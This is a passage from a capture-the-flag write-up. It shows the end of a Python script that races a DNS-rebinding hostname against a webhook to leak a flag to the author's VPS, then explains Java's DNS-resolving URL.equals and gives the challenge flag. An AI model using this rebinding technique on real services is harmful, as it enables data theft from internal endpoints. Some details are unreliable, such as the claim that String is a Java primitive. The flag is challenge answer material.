 ```python
            while True:
                futures = [
                    executor.submit(send_request, session, url, payload)
                    for _ in range(BATCH_SIZE)
                ]

                for future in as_completed(futures):
                    pass 

                time.sleep(DELAY_BETWEEN_BATCHES)

if __name__ == "__main__":
    main()
```

A little bit of explanation for it:
- The `RBNDR` url was constructed with a [rebinder service](https://lock.cmpxchg8b.com/rebinder.html) using the `example.com` IP as the first IP and my VPS IP as the second IP.
- I opted for a requests batched approach to have an high density of requests in a short time window.
- Large body payload to increase the execution time of `h.template.replace("_DATA_", body)` and thus increasing the duration of the target window. 
- Spamming the `/webhook` to have different DNS cache revalidation timings and increase the chances of an IP switch happening inside the target window.

So, at this point i just run the exploit, prayed and went to have lunch, aaand when i got back i saw this in my VPS console output

![Request with the flag received on the VPS](./img/flag.png "Request with the flag received on the VPS")

## Extra

### But why the hell does Java do DNS resolutions on simple `==` comparisons?
While many weird Java behaviors could be simply explained with the phrase *"because Java."* I wanted to try to justify why the Java devs choose to do DNS resolutions on simple equal comparisons.  
Let's start from the fact that mainly in Java everything is an object allocated in the heap, except for primitives like `int`, `char`, `byte`, `long`, `String` and a few more. Therefore when the JVM has to do comparison of two objects, to see if those two objects are equal, it must check that they are equal in every way. In fact, if you create two objects of two identical classes, their comparison will return false because they have different references in memory.  
As a result Java devs probably said something like *"you don't like it? jk what? Implement the damn comparison by yourself"*. So practically every object in Java has its own magic method `.equals()` which corresponds to its custom implementation to do more intelligent checks and not make two objects have to be just two deep copies to be equal.  
Whoever wrote the `URL` class thought well that to effectively check that two URL objects are equal, they not only must have every property in common (path, protocol, port, ...) but must also resolve to the same IP. To find out this, obviously Java needs to perform a DNS resolution.  
Questionable choice? Absolutely.  
This is what it is anyway? Yes and we have to live with it and in case we simply want to compare two URLs as strings we should use the `URI` class.  

**Fun Fact**: as someone said in this not so happy discussion about this behavior [here](https://news.ycombinator.com/item?id=21765788), that choice was originally made to prevent DNS rebinding attacks.  

---
Flag: `irisctf{url_equals_rebind}`